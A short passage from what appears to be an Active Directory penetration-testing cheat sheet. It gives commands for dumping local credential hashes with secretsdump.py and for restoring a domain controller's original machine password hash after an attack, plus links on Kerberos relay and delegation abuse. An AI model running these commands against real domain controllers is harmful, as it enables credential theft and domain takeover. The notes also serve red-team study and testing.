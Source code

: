 - crack original ntlm hash
```
> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

- Reinstall the hashes to the domain. Reinstalling the original hash is necessary for the DC to continue to operate normally.
```
> python3 reinstall_original_pw.py <DC_NETBIOS_NAME> <DC_IP_ADDR> <ORIG_NT_HASH>
```

# ref
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://blog.harmj0y.net/activedirectory/s4u2pwnage/
